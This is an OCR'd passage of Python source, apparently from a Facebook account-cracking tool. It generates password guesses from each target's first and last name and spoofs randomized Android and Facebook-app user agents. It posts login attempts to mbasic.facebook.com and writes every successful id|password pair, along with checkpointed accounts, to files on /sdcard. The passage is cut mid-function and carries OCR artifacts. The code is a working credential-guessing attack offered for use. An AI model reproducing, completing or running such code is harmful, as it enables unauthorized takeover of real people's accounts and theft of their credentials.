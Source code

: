                         head = {'Host': 'mbasic.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://mbasic.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search(f'name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search(f'name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post(f'https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        Shahin=session.cookies.get_dict().keys()
                        if "c_user" in Shahin:
                                coki=session.cookies.get_dict()
                                kuki = (f";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print(f'\r\r\033[1;32m [AVI-OK] %s | %s'%(ids,pas))
                                #cek_apk(session,coki)
                                open(f'/sdcard/NINS-OK.txt', 'a').write(ids+'|'+pas+'\n')
                                oks.append(ids)
                                break
                        elif 'checkpoint' in Shahin:
                                if 'y' in pcp:
                                        print(f'\r\r\x1b[38;5;126m [INNOCENT-CP] '+ids+' | '+pas+'\033[1;97m')
                                        open(f'/sdcard/AVI-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1

def api(ids,names,passlist):
                try:
                        global ok,loop
                        sys.stdout.write(f'\r\r\033[1;37m [NINS] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        fn = names.split(f' ')[0]
                        try:
                                ln = names.split(f' ')[1]
                        except:
                                ln = fn
                        for pw in passlist:
                                pas = pw.replace(f'first',fn.lower()).replace(f'First',fn).replace(f'last',ln.lower()).replace(f'Last',ln).replace(f'Name',names).replace(f'name',names.lower())
                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))
                                application_version_code=str(random.randint(000000000,999999999))
                                fbs=random.choice(fbks)
                                gtt=random.choice(xxxxx)
                                gttt=random.choice(xxxxx)
                                android_version=str(random.randrange(6,13))
                                ua_string = f'Davik/2.1.0 (linex; U; Android {str(android_version)}.0.0; {str(gtt)} Build/{str(gttt)} [FBAN/FB4A;FBAV/{str(application_version)};FBBV/{str(application_version_code)};FBDM/'+'{density=2.0,width=720,height=1280};'+f'FBLC/en_US;FBRV/{str(application_version_code)};FBCR/Movistar;FBMF/samsung;FBBD/samsung;FBPN/{str(fbs)};FBDV/{str(gtt)};FBSV/7.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]'
                                device_id = str(uuid.uuid4())
                                adid = str(uuid.uuid4())